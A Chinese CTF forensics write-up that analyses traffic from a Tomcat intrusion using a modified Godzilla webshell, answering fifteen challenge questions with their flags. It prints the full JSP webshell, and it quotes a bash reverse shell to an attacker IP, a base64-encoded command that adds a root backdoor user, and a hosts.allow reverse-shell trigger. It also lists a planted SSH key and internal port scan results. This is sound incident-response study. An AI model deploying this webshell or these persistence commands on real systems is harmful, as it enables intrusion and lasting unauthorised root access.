# 哥斯拉 ekp 版本流量分析

## 1

> 黑客上传的木马文件名是什么？

已知是上传文件，所以直接排查 http 会话



很明显的 Tomcat 漏洞利用，使用 PUT 协议写入 webshell

```flag
flag{.index.jsp}
```

## 2

> 黑客上传的木马连接密码是什么？

将攻击者植入的 webshell 源码提取

```java
<%!String xc = "9adbe0b3033881f8";
String pass = "mypass";
String md5 = md5(pass + xc);

class X extends ClassLoader {
    public X(ClassLoader z) {
        super(z);
    }

    public Class Q(byte[] cb) {
        return super.defineClass(cb, 0, cb.length);
    }
}

public static String md5(String s) {
    String ret = null;
    try {
        java.security.MessageDigest m;
        m = java.security.MessageDigest.getInstance("MD5");
        m.update(s.getBytes(), 0, s.length());
        ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();
    } catch (Exception e) {
    }
    return ret;
}
public byte[] x(byte[] s, boolean m) {
    try {
        javax.crypto.Cipher c = javax.crypto.Cipher.getInstance("AES");
        c.init(m ? 1 : 2, new javax.crypto.spec.SecretKeySpec(xc.getBytes(), "AES"));
        return c.doFinal(s);
    } catch (Exception e) {
        return null;
    }
}


public static String base64Encode(byte[] bs) throws Exception {
    Class base64;
    String value = null;
    try {
        base64 = Class.forName("java.util.Base64");
        Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);
        value = (String) Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });
    } catch (Exception e) {
        try {
            base64 = Class.forName("sun.misc.BASE64Encoder");
            Object Encoder = base64.newInstance();
            value = (String) Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });
        } catch (Exception e2) {}
    }
    return value;
}

public static byte[] base64Decode(String bs) throws Exception {
    Class base64;
    byte[] value = null;
    try {
        base64 = Class.forName("java.util.Base64");
        Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
        value = (byte[]) decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });
    } catch (Exception e) {
        try {
            base64 = Class.forName("sun.misc.BASE64Decoder");
            Object decoder = base64.newInstance();
            value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });
        } catch (Exception e2) {}
    }
    return value;
}

    public static byte[] base64Decode(byte[] bytes) {
            Class base64;
            byte[] value = null;
            Object decoder;
            try {
                base64 = Class.forName("java.util.Base64");
                decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
                value = (byte[]) decoder.getClass().getMethod("decode", new Class[]{byte[].class}).invoke(decoder, new Object[]{bytes});
            } catch (Exception e) {
                try {
                    base64 = Class.forName("sun.misc.BASE64Decoder");
                    decoder = base64.newInstance();
                    value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[]{String.class}).invoke(decoder, new Object[]{new String(bytes)});
                } catch (Exception e2) {
                }
            }
            return value;
        }%><%try { byte[] data = base64Decode(request.getParameter(pass).getBytes()); data = base64Decode(data); data = x(data, false); if (session.getAttribute("payload") == null) { session.setAttribute("payload", new X(this.getClass().getClassLoader()).Q(data)); } else { request.setAttribute("parameters", data); java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream(); Object f = ((Class) session.getAttribute("payload")).newInstance(); f.equals(arrOut); f.equals(pageContext); String left = md5.substring(0, 5).toLowerCase(); String replacedString = "var Rebdsek_config=".replace("bdsek", left); response.setContentType("text/html"); response.getWriter().write("<!DOCTYPE html>"); response.getWriter().write("<html lang=\"en\">"); response.getWriter().write("<head>"); response.getWriter().write("<meta charset=\"UTF-8\">"); response.getWriter().write("<title>{title}</title>"); response.getWriter().write("</head>"); response.getWriter().write("<body>"); response.getWriter().write("<script>"); response.getWriter().write("<!-- Baidu Button BEGIN"); response.getWriter().write("<script type=\"text/javascript\"id=\"bdshare_js\"data=\"type=slide&amp;img=8&amp;pos=right&amp;uid=6537022\"></script>"); response.getWriter().write("<script type=\"text/javascript\"id=\"bdshell_js\"></script>"); response.getWriter().write("<script type=\"text/javascript\">"); response.getWriter().write(replacedString); f.toString(); response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true))); response.getWriter().write(";"); response.getWriter().write("document.getElementById(\"bdshell_js\").src = \"http://bdimg.share.baidu.com/static/js/shell_v2.js?cdnversion=\"+ Math.ceil(new Date()/3600000);"); response.getWriter().write("</script>"); response.getWriter().write("-->"); response.getWriter().write("</script>"); response.getWriter().write("</body>"); response.getWriter().write("</html>"); } } catch (Exception e) {}
%>
```

即可得到答案

```flag
flag{mypass}
```

## 3

> 黑客上传的木马连接密钥是什么？

上一题中就有

```flag
flag{9adbe0b3033881f8}
```

## 4

> 黑客连接 webshell 后执行的第一条命令是什么？

确定工具为 [kong030813/Z-Godzilla_ekp: 哥斯拉 webshell 管理工具二次开发规避流量检测设备](https://github.com/kong030813/Z-Godzilla_ekp)

手动对流量进行解密





进一步，尝试进行分析



结合分析，发现核心编码器的变动不多，可以手动分析

经过测试，可以工作



这里附上 Cyberchef 工作流

```plaintext title="decode request"
From_Base64('A-Za-z0-9+/=',true,false)
From_Base64('A-Za-z0-9+/=',true,false)
AES_Decrypt({'option':'Latin1','string':'9adbe0b3033881f8'},{'option':'Hex','string':''},'ECB/NoPadding','Raw','Raw',{'option':'Hex','string':''},{'option':'Hex','string':''})
Drop_bytes(0,-16,false)
Gunzip()
Drop_bytes(0,69,false/disabled)
To_Hexdump(16,false,false,false/disabled)
Strings('Single byte',4,'Alphanumeric + punctuation (A)',false,false,false)
To_Hexdump(16,false,false,false/disabled)
```

```plaintext title="decode response"
From_Base64('A-Za-z0-9+/=',true,false)
From_Base64('A-Za-z0-9+/=',true,false/disabled)
AES_Decrypt({'option':'Latin1','string':'9adbe0b3033881f8'},{'option':'Hex','string':''},'ECB/NoPadding','Raw','Raw',{'option':'Hex','string':''},{'option':'Hex','string':''})
Drop_bytes(0,-9,false)
Gunzip()
Drop_bytes(0,69,false/disabled)
To_Hexdump(16,false,false,false/disabled)
Strings('Single byte',4,'Alphanumeric + punctuation (A)',false,false,false/disabled)
To_Hexdump(16,false,false,false/disabled)
```

:::info

需要注意的是，这里由于请求前后会加上 checksum，所以 Drop_bytes 的偏移量需要手动调整

:::

追踪流量，定位到



解密



```flag
flag{cat /etc/passwd}
```

## 5

> 这个木马是根据哪个参数进行回显的？（提交参数名）

直接看流量包即可



```flag
flag{Rec106e_config}
```

## 6

> 黑客留下后门的反连的 IP 和 PORT 是什么？flag\{IP,PORT\}

继续跟进流量



解密得到



提取其中的载荷并解码

```plaintext
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMzEuMjA1LzQ0NDQgMD4mMQ==

/bin/bash -i >& /dev/tcp/192.168.31.205/4444 0>&1
```

即可得到答案

```flag
flag{192.168.31.205,4444}
```

## 7

> 黑客通过后门反连执行的第一条命令是什么？

定位到反弹 shell 的会话



即可确定答案

```flag
flag{ls}
```

## 8

> 黑客新增的后门用户名密码是什么？（提交 flag\{username,password\}）

跟进反弹 shell 的会话

```plaintext
echo dXNlcmFkZCAtcCBgb3BlbnNzbCBwYXNzd2QgLTEgLXNhbHQgJ3NhbHQnIFhqQDY2Ni5gIHggLW8gLXUgMCAtZyByb290IC1HIHJvb3QgLXMgL2Jpbi9iYXNoIA==|base64 -d|bash

dXNlcmFkZCAtcCBgb3BlbnNzbCBwYXNzd2QgLTEgLXNhbHQgJ3NhbHQnIFhqQDY2Ni5gIHggLW8gLXUgMCAtZyByb290IC1HIHJvb3QgLXMgL2Jpbi9iYXNoIA==

useradd -p `openssl passwd -1 -salt 'salt' Xj@666.` x -o -u 0 -g root -G root -s /bin/bash
```

即可确定答案

```flag
flag{x,Xj@666.}
```

## 9

> 黑客新增的后门文件是什么？（提交完整路径）

使用后门账户登录服务器



由于后门用户 `x` 不存在 `/home/x` 目录，导致不存在 bash_history 文件，只能进行手动排查

首先，先定位到 webshell 的植入时间

```plaintext
-rw-r----- 1 root root 5.2K Oct  2 02:40 /opt/apache-tomcat-8.5.19/webapps/ROOT/.index.jsp
```

定位到攻击者植入 webshell 的时间之后，基于时间进行定位

```plaintext
(remote) root@ip-10-0-10-1:/etc# find / -type f -newermt "2023-10-02" -exec ls -lh {} \; | grep -e "Oct  2" | grep -v "/usr"
-rw-r----- 1 root root 5.2K Oct  2 02:40 /opt/apache-tomcat-8.5.19/webapps/ROOT/.index.jsp
-rw-r----- 1 root root 5.6K Oct  2 02:46 /opt/apache-tomcat-8.5.19/logs/localhost_access_log.2024-10-02.txt
-rw-r----- 1 root root 11K Oct  2 02:40 /opt/apache-tomcat-8.5.19/work/Catalina/localhost/ROOT/org/apache/jsp/__index_jsp.class
-rw-r----- 1 root root 719 Oct  2 02:40 /opt/apache-tomcat-8.5.19/work/Catalina/localhost/ROOT/org/apache/jsp/__index_jsp$X.class
-rw-r----- 1 root root 9.6K Oct  2 02:40 /opt/apache-tomcat-8.5.19/work/Catalina/localhost/ROOT/org/apache/jsp/__index_jsp.java
-rw-r--r--. 1 root root 590 Oct  2 04:56 /etc/fstab
-rw-r--r-- 1 root root 1.4K Oct  2 02:42 /etc/passwd-
find: ‘/proc/8096/task/8096/fdinfo/6’: No such file or directory
find: ‘/proc/8096/fdinfo/5’: No such file or directory
-rw-r--r--. 1 root root 0 Oct  2 04:56 /etc/vmimport.rc.local
-rw-r--r-- 1 root root 1.2K Oct  2 04:56 /etc/default/grub
-rw-r--r-- 1 root root 274 Oct  2  2023 /etc/default/grub.d/init-select.cfg
-rw-r--r--. 1 root root 1.2K Oct  2 04:56 /etc/default/grub-bkup
-rw-r--r--. 1 root root 114 Oct  2 04:56 /etc/network/interfaces
-rw-r--r-- 1 root root 675 Oct  2 02:42 /etc/group-
-rwxr-xr-x 1 root root 14K Oct  2  2023 /etc/grub.d/10_linux
-rwxr-xr-x 1 root root 6.2K Oct  2  2023 /etc/grub.d/05_debian_theme
-rwxr-xr-x 1 root root 9.9K Oct  2  2023 /etc/grub.d/00_header
-rwxr-xr-x 1 root root 215 Oct  2  2023 /etc/grub.d/41_custom
-rwxr-xr-x 1 root root 13K Oct  2  2023 /etc/grub.d/30_os-prober
-rwxr-xr-x 1 root root 214 Oct  2  2023 /etc/grub.d/40_custom
-rwxr-xr-x 1 root root 1.4K Oct  2  2023 /etc/grub.d/30_uefi-firmware
-rwxr-xr-x 1 root root 14K Oct  2  2023 /etc/grub.d/20_linux_xen
-rw-r--r-- 1 root root 483 Oct  2  2023 /etc/grub.d/README
-rw-r--r-- 1 root root 15 Oct  2 02:42 /etc/subgid-
-rw-r--r-- 1 root root 87 Oct  2 02:42 /etc/hosts.allow
-rw-r----- 1 root shadow 565 Oct  2 02:42 /etc/gshadow-
-rwxr-xr-x 1 root root 224 Oct  2 04:56 /etc/rc.d/rc.local
-rwxr-xr-x. 1 root root 224 Oct  2 04:56 /etc/rc.d/rc.local.vmimport
-rw-r--r-- 1 root root 15 Oct  2 02:42 /etc/subuid-
-rwxr-xr-x 1 root root 646 Oct  2  2023 /etc/kernel/postinst.d/zz-update-grub
-rwxr-xr-x 1 root root 646 Oct  2  2023 /etc/kernel/postrm.d/zz-update-grub
-rw-r--r--. 1 root root 80 Oct  2 04:56 /etc/cloud/cloud.cfg.d/99-disable-network-config.cfg
-rw-r--r--. 1 root root 0 Oct  2 04:56 /etc/cloud/cloud.cfg.d/vmimport.99-disable-network-config.cfg
-rw-r--r-- 1 root root 459 Oct  2 02:43 /root/.bash_h1story/.keys
-rw-r--r-- 1 root root 1.2K Oct  2  2023 /var/lib/grub/ucf/grub.previous
-rw-r--r-- 1 root root 1.9K Oct  2 03:45 /var/lib/dhcp/dhclient.ens33.leases
-rw-r--r-- 1 root root 249 Oct  2  2023 /var/lib/dpkg/info/grub-common.conffiles
-rw-r--r-- 1 root root 74 Oct  2  2023 /var/lib/dpkg/info/grub2-common.conffiles
-rwxr-xr-x 1 root root 336 Oct  2  2023 /var/lib/dpkg/info/grub-common.postrm
-rwxr-xr-x 1 root root 877 Oct  2  2023 /var/lib/dpkg/info/grub-pc.prerm
-rwxr-xr-x 1 root root 336 Oct  2  2023 /var/lib/dpkg/info/grub-common.preinst
-rwxr-xr-x 1 root root 336 Oct  2  2023 /var/lib/dpkg/info/grub-common.postinst
-rw-r--r-- 1 root root 1.1K Oct  2  2023 /var/lib/dpkg/info/grub2-common.md5sums
-rw-r--r-- 1 root root 443K Oct  2  2023 /var/lib/dpkg/info/grub-pc.templates
-rw-r--r-- 1 root root 7.2K Oct  2  2023 /var/lib/dpkg/info/grub-common.md5sums
-rw-r--r-- 1 root root 335 Oct  2  2023 /var/lib/dpkg/info/grub-pc.md5sums
-rwxr-xr-x 1 root root 2.1K Oct  2  2023 /var/lib/dpkg/info/grub-pc.postrm
-rwxr-xr-x 1 root root 415 Oct  2  2023 /var/lib/dpkg/info/grub-pc.preinst
-rwxr-xr-x 1 root root 27K Oct  2  2023 /var/lib/dpkg/info/grub-pc.postinst
-rw-r--r-- 1 root root 21K Oct  2  2023 /var/lib/dpkg/info/grub-pc-bin.md5sums
-rwxr-xr-x 1 root root 336 Oct  2  2023 /var/lib/dpkg/info/grub-common.prerm
-rwxr-xr-x 1 root root 2.5K Oct  2  2023 /var/lib/dpkg/info/grub-pc.config
-rw-r--r-- 1 systemd-timesync systemd-timesync 0 Oct  2 03:14 /var/lib/systemd/timesync/clock
-rw-rw---- 1 root utmp 384 Oct  2 01:46 /var/log/btmp
-rw-r----- 1 root adm 23K Oct  2 00:00 /var/log/syslog.2.gz
-rw-r--r-- 1 root root 7.6K Oct  2 04:56 /boot/grub/grub.cfg
-rw-r--r--. 1 root root 7.4K Oct  2 04:56 /boot/grub/grub.cfg-bkup
```

在这份清单中进行排查，定位到文件 `/etc/hosts.allow`

```plaintext title="/etc/hosts.allow"
ALL: ALL: spawn (bash -c "/bin/bash -i>& /dev/tcp/192.168.31.200/4444 0>&1") & :allow
```

很明显是一个基于 SSH 登录就触发的反连后门

```flag
flag{/etc/hosts.allow}
```

## 10

> 黑客的后门公钥是什么？（提交公钥的 md5 值）

经过排查，在上文的结果中，定位到 `/root/.bash_h1story/.keys`

```plaintext
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDPNKP3QL+i1safdsU6Zb2MuoBjZYreADjwhbP3dzZpjwx8aC7X1k9sb8IEKSjvsWxbb4nC7r/wzHKHo0bdnwdM6Risjniob6+0c4ImBzksxvnR3lJjQe5Hw+wi4+ynA/D3U19OazRxca5I1L6ONspSAa3s4sw2QoxbuBVFel+IKBzebp8K7VB3Kr3Zlry5NTd52Inn347zZWfb56olxRaHTJ6IXAJLeFmGT6R2nDul2lY8HWS2D5k8lDC9oNewTjtFKzPVi9rtDzGHxDc1+k3gKE2QkKUjBEYfeKmU+N5GmTT3tIYfrJSfWfxwDrCvvhqnf2wZQYtZCNf48C/opH8EhRBQrH/X94drX+eXJOmozQzKJfdidQshRwSKDff6w1gYk= xiaole@xiaoledeMacBook-Pro.local

d7bf0e27d6f533604250faceb28b6d4b
```

/etc/ssh/sshd_config

即可得到答案

```flag
flag{d7bf0e27d6f533604250faceb28b6d4b}
```

## 11

> 黑客注入的内存马代理是那种类型的？（如 flag\{frp\}）

继续解析流量



将其中的有效负载进行提取，并依照 `0xCAFEBABE`Java Class 文件头进行定位，反编译得到



将反编译结果中的特征字符串进行搜索 [Code search results - Github](https://github.com/search?q=this.servletContext+%3D+%28ServletContext%29+this.parameterMap.get%28%22servletContext%22%29%3B+&ref=opensearch&type=code)

可以确定其为 Suo5 代理

```flag
flag{suo5}
```

## 12

> 这个代理的路径是什么？（如 flag\{/frp\}）

上一题的截图中就有

```flag
flag{/connect}
```

## 13

> 这个代理的连接密码是什么？（将得到的密码md5后作为flag提交）

根据植入suo5内存马并执行激活的流量来看，User-agent字段就是代理的连接密码

将流量中的内存马激活的部分进行提取



得到



```plaintext
Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.1.2.3
```

计算哈希即可得到答案

```flag
flag{e3c77fd790af8d25fe271cd275eb405e}
```

## 14

> 黑客扫描了哪个 ip 的哪些端口？（端口按照文本顺序提交即可 如：flag\{ip,21,22,23\}）

对后续流量进行分析



解密得到



即可得到答案

```flag
flag{127.0.0.1,873,3306,80,8080,81,8081,21,22,88,8088,8888,1433,443,445,3389,222}
```

## 15

> 黑客扫描到开放的端口有哪些？（端口从小到大排序提交 如：flag\{21,22,23\}）

对上一题的请求包的返回进行解码



```plaintext
127.0.0.1 873 0
127.0.0.1 3306 0
127.0.0.1 8080 0
127.0.0.1 81 0
127.0.0.1 8081 1
127.0.0.1 22 0
127.0.0.1 88 0
127.0.0.1 8088 0
127.0.0.1 445 0
127.0.0.1 443 0
127.0.0.1 1433 0
127.0.0.1 8888 0
127.0.0.1 21 0
127.0.0.1 80 0
127.0.0.1 222 1
127.0.0.1 3389 0
```

即可得到答案

```flag
flag{222,8081}
```
